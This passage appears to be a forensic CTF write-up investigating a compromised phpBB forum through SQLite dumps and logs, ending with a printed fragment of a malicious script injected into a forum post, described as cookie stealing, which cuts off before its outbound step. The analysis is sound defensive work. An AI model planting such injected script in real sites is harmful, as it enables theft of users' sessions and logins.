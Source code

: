
Grepping the logs for "username", "user", "login", "sign" returns nothing useful at the moment, so I'm looking into the database file.

```plaintext
$ sqlite -readonly phpbb.sqlite3
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1710869146907/88c8f6d1-a4ba-43bd-bc08-9dca872de047.png align="center")

```plaintext
sqlite> .output db/phpbb_log.sql
sqlite> .dump phpbb_log
sqlite> .output db/phpbb_users.sql
sqlite> .dump phpbb_users
```

At database we can see two users with a mail domain '@contractor.net'. I have no idea which one is the contractor in question but nevertheless one of the usernames is the correct answer.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1710869164442/6657935b-b6bb-40f8-89ef-526ab037ffd3.png align="center")

2. What IP address did the contractor use to create their account?
    

This can be found in `phpbb_logs` table, with action `LOG_USERS_ADDED`.

3. ![](https://cdn.hashnode.com/res/hashnode/image/upload/v1710869193324/34844add-62ab-406b-8095-8254d1c9a704.png align="center")
    
    What is the post\_id of the malicious post that the contractor made?
    

Ah, so the contractor was the one who compromised the administrator account. I thougth that "they" meant owners of that Guest WiFi, but ok.

Grepping `access.log` for `post_id` returns nothing. Dumping php table:

```plaintext
sqlite> .output db/phpbb_posts.sql
sqlite> .dump phpbb_posts
```

Fortunatelly there are not really must post there. Malicious post with cookie stealing injection is there.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1710869220909/6017461a-1969-4846-956b-09ab2510e117.png align="center")

Injected form (pruned of unnecessary elements) is below.

```html
<div>
    //...
    <script type="text/javascript">
        function sethidden() {
            const d = new Date()
            d.setTime(d.getTime() + 24 * 60 * 60 * 1000)
            let expires = 'expires=' + d.toUTCString()
            document.cookie = 'phpbb_token=1;' + expires + ';'
            var modal = document.getElementById('zbzbz1234')
            modal.classList.add('hidden')
        }
        document.addEventListener('DOMContentLoaded', function (event) {
            let cookieexists = false
            let name = 'phpbb_token='
            let cookies = decodeURIComponent(document.cookie)
            let ca = cookies.split('; ')
            for (let i = 0; i < ca.length; i++) {
                let c = ca[i]
                while (c.charAt(0) == ' ') {
                    c = c.substring(1)
                }
```